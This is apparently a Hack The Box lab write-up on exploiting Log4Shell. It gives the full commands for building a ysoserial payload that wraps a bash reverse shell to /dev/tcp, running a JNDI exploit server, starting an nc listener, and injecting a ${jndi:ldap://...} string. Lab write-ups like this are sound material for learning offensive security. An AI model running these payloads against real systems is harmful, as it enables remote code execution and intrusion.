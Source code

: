 To exploit the vulnerability I used the "JNDI-Exploit-Kit" https://github.com/pimps/JNDI-Exploit-Kit &
ysoserial-modified https://github.com/pimps/ysoserial-modified

I had to revert JNDI Exploit Kit version because the latest version broke and would not work. To fix it run this command once you have cloned the repo. This will go back to a later version

```
┌──(root💀kali)-[/opt/log4Shell/JNDI-Exploit-Kit]
└─# git checkout 0b6925d80d453146db917616c521e7fc8419dbf7
```

#### ysoserial payload creation

/opt/log4Shell/ysoserial-modified/target
`java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/kaliIP/9002 0>&1' > ~/htb/logforge/cc5.ser`

#### JNDI server to catch request and send payload

/opt/log4Shell/JNDI-Exploit-Kit/target
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.2:1389 -P /root/htb/logforge/cc5.ser`

#### Set up listener

`nc -lvnp 9002`

Then we can take a link provided from the JNDI Exploit it and pass it into the vulnerable field

```
┌──(root💀kali)-[/opt/log4Shell/JNDI-Exploit-Kit/target]          
└─# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.2:1389 -P /root/htb/logforge/cc5.ser                                                                                 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true                                                                                                                
       _ _   _ _____ _____      ______            _       _ _          _  ___ _                                                                                                                    | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |                                                                                                             
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                     
                                           |_|               created by @welk1n 
                                                             modified by @pimps 


Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://KALI:1099/uivbfy
ldap://KALI:1389/uivbfy
```

My payload looked like this `${jndi:ldap://KALIIP:1389/uivbfy}`
